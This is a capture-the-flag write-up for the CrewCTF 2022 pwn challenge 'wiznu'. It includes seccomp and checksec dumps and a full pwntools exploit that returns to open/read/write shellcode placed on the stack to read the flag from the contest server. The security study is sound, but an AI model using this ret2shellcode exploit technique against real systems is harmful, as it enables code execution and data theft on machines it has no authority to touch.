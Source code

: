 ## Question 

beginner friendly
Author : st4rn#0086
nc wiznu.crewctf-2022.crewc.tf 1337

[chall](chall)

## Solution

The binary has seccomp enabled that only allows read, write, open syscalls

```
└─# seccomp-tools dump ./chall 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
 0007: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
 ```

Other than that, it lacks most protections (namely ASLR and NX). 

```
└─# pwn checksec ./chall 
[*] '/root/workspace/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Combined with the fact that the binary leaks the address of the stack, we should be good to return to shellcode we placed on the stack.

```
pwndbg> r
Starting program: /root/workspace/chall 
Special Gift for Special Person : 0x7fffffffe2d0
```

We'll just return to shellcode and use only the open, read, and write syscalls to cat the flag on the server.

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('wiznu.crewctf-2022.crewc.tf',1337)
    else:
        return process(e.path)

p = start()

def ret_leak():
    p.recvuntil(b"Special Gift for Special Person : ")
    leak = int(p.recvline(),16)
    return leak

def build_shellcode():
    FLAG_LEN = 40
    shellcode = asm(shellcraft.open(file='flag', oflag=0, mode=0))
    shellcode += asm(shellcraft.amd64.linux.read(fd='rax', buffer='rsp', count=FLAG_LEN))
    shellcode += asm(shellcraft.amd64.linux.write(constants.STDOUT_FILENO, 'rsp', FLAG_LEN))
    shellcode += asm(shellcraft.nop())*220    
    return shellcode

buf = build_shellcode()
buf += p64(ret_leak())

p.sendline(buf)
p.interactive()
````

Running gives us the flag 

```
$ python3 pwn-wiznu.py BIN=./chall REMOTE
[*] '/root/workspace/crew-ctf/wiznu/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[*] Loading gadgets for '/root/workspace/crew-ctf/wiznu/chall'
[+] Opening connection to wiznu.crewctf-2022.crewc.tf on port 1337: Done
[*] Switching to interactive mode
> crew{ORW_come_to_the_rescue_st4rn_h3r3!}[*] Got EOF while reading in interactive
```